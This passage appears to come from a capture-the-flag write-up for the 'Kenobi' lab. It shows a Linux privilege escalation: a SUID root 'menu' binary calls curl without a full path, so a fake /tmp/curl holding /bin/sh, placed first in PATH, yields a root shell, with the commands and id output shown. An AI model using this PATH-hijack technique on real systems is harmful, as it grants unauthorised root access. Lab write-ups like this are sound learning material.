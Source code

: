 Strings is a command on Linux that looks for human readable strings on a binary.
![disecting menu binary](./kenobi/disect_binary.png)

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.

let's the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This means that when the /usr/bin/menu binary is run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it will run our shell as root!

```bash
kenobi@kenobi:~$ echo /bin/sh > /tmp/curl
kenobi@kenobi:~$ chmod 777 /tmp/curl
kenobi@kenobi:~$ export PATH=/tmp:$PATH
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# 
```
